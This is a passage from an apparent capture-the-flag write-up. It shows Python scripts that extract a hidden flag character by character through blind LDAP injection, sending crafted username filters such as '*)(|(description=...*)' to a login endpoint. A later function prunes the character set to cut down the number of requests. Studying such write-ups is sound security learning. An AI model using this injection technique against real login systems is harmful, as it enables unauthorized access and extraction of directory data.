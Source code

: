 ```python
            payload_password = f"*"
            data = {
                'username': payload_username,
                'password': payload_password
            }

            # Send 
            resp = session.post(BASE_URL, data=data)

            # append if found
            if resp.status_code == 200:
                flag += c
                print(f"[+] Found character: {c} → {flag}")
                found_char = True
                break

        if not found_char:
            print(f"[-] No matching character found for prefix {flag!r}")
            sys.exit(1)

    return flag

if __name__ == '__main__':
    result = get_flag()
    print(f"\nFlag: {result}")
```

After the fact I optimized the script, where I first prune the character set, reducing the amount of requests sent.

```py
def prune_charset(prefix,charset):
    session = requests.Session()
    pruned = ""
    it = 0

    for c in charset:

        payload_username = f"*)(|(description={prefix}*" + c + "*)"
        payload_password = f"*"

        data = {
            'username': payload_username,
            'password': payload_password
        }

        resp = session.post(BASE_URL, data=data)
        it += 1


        if resp.status_code == 200:
            pruned += c
            # print(f"did not prune: {c}")

    print(f"Iterations : {it}")
    print(f"Pruned charset : {pruned}")
    return pruned
```

